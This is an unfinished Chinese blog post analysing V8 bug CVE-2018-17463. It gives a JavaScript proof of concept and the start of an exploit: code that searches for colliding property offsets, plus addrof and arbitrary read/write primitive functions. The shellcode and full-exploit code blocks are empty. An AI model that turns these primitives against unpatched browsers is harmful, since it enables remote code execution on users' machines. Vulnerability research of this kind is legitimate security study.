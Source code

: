 ```yaml
---
layout:     post
title:      "V8引擎CVE-2018-17463漏洞分析（工事中）"
subtitle:   ""
date:       2019-9-4 22:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - chrome
    - v8
    - exploit
    - cve
    - browser
---
```


> 本文为本博客V8系列第四篇。

## 漏洞基本信息

[漏洞信息页面](https://bugs.chromium.org/p/chromium/issues/detail?id=888923)
[漏洞修复代码](https://chromium.googlesource.com/v8/v8.git/+/52a9e67a477bdb67ca893c25c145ef5191976220)

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 568979f4d891bafec875fab20f608ff9392f4f29
gclient sync
```

对源码进行编译。
```
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## PoC


```javascript
function check_vul(){
    function bad_create(x){
        x.a;
        Object.create(x);
        return x.b;

    }

    for (let i = 0;i < 10000; i++){
        let x = {a : 0x1234};
        x.b = 0x5678; 
        let res = bad_create(x);
        //log(res);
        if( res != 0x5678){
            console.log(i);
            console.log("CVE-2018-17463 exists in the d8");
            return;
        }

    }
    throw "bad d8 version";

}
check_vul();
```

![](/img/in-post/post-cve20165198/poc-core-dumped.png)

POC代码执行后，res的取值将会发生错误，从而导致输出“CVE-2018-17463 exists in the d8”语句。

## 漏洞成因

漏洞成因是原本分开保存的各个属性在`Object.create()`后会被整理到一个大的hash表结构里。但是JIT后的函数不知道，依旧按照最初保存在变量结构体里的偏移去取，导致下方的内存泄露。

## 漏洞利用

#### 确定偏移

使用POC的代码即可稳定触发漏洞，但是我们发现每次执行后，hash表中的顺序会不断变化，从而导致漏洞利用过程中各个属性所对应的偏移大小无法确定。


但是存在另一个规律，在同一次执行过程中，相同属性构造的`Object`，在`DictionaryProperties`中的偏移是相同的，执行如下代码：
```javascript
let a1 = {x : 1,y:2,z:3};
a1.b = 4;
a1.c = 5;
a1.d = 6;
let a2 = {x : 2,y:3,z:4};
a2.b = 7;
a2.c = 8;
a2.d = 9;
Object.create(a1);
%DebugPrint(a1);
Object.create(a2);
%DebugPrint(a2);
readline();
```

通过调试发现，尽管a1，a2的属性值是不同的，但是每个相同名称的属性的位置是相同的。

![](/img/in-post/post-cve20165198/poc-core-dumped.png)

因此，根据这个规律我们可以得到这样一个方法：在一次利用中，只要找到一对可以用于类型混淆的属性名就可以作为先验知识一直使用。有了这对属性，假设为a.x1和a.x2，那么就可以返回a.x1而的到a.x2的值，从而造成类型混淆。

搜索X1、X2对的代码如下：

```javascript
// check collision between directory mode and fast mode
let OPTIMIZATION_NUM = 10000
let OBJ_LEN  = 0x30

function getOBJ(){
    let res = {a:0x1234};
    for (let i = 0; i< OBJ_LEN;i++){
        eval(`res.${'b'+i} = -${0x4869 + i};
        `);        
    }
    return res;
}

function findCollision(){
    let find_obj = [];
    for (let i = 0;i<OBJ_LEN;i++){
        find_obj[i] = 'b'+i;
    }
    eval(`
        function bad_create(x){
            x.a;
            this.Object.create(x);
            ${find_obj.map((b) => `let ${b} = x.${b};`).join('\n')}
            return [${find_obj.join(', ')}];
        }
    `);
    for (let i = 0; i<OPTIMIZATION_NUM;i++){
        let tmp = bad_create(getOBJ());
        for (let j = 0 ;j<tmp.length;j++){
            if(tmp[j] != -(j+0x4869) && tmp[j] < -0x4868 && tmp[j] > -(1+OBJ_LEN +0x4869) ){
                console.log('b'+ j +' & b' + -(tmp[j]+0x4869) +" are collision in directory");
                return ['b'+j , 'b' + -(tmp[j]+0x4869)];
            }
        }
    }
    throw "not found collision ";
}
findCollision();
```

从下面的结果可发现，在每次执行中，键值对都不同：

![](/img/in-post/post-cve20165198/poc-core-dumped.png)

在这以后，便可以使用得到的键值对造成类型混淆。

#### addrof原语
假设得到的键值对为X和Y。则构建一个全新的`Object`：

```javascript
o.X = {x1:1.1,x2:1.2};
o.Y = {y1:obj};
```

并且构造恶意函数：
```javascript
function bad_create(o){
    o.a;
    this.Object.create(o);
    return o.X.x1;
}
```

那么在返回`o.X.x1`的时候，实际上返回的是obj结构体的地址，从而对浮点型进行转换就可以得到对应obj地址了。`值得注意的是，这里的X和Y是hash里位置最上面的第一个元素和越界读写重合。也就是说也可以选择hash里第二、第三个目标元素的位置。`

#### 任意地址读写原语

通常任意地址读写需要利用`ArrayBuffer`对象的`backing_store`属性，该属性指向分配的Buffer空间，因此，修改它为目标地址即可对目标地址进行读写操作。我们发现如果构建`Object`为`{x0:{x1:1.1,x2:1.2}}`，则对`x0.x2`的写操作恰好可以改变对应键值的`backing_store`，造成内存任意写。

因此，恶意函数构造如下：
```javascript
function bad_create(o,value){
    o.a;
    this.Object.create(o);
    let ret = o.${X}.x0.x2;
     o.${X}.x0.x2 = value;
    return ret;
}
```

#### Shellcode执行

利用wasm机制来开辟一块`rwx`的内存空间，代码如下：
```javascript

```
![](/img/in-post/post-cve20165198/poc-core-dumped.png)

## 最终效果

成功使得v8执行了Shellcode后弹出了计算器。

![](/img/in-post/post-cve20165198/poc-core-dumped.png)

## EXP

最终完整EXP如下：

```javascript

```





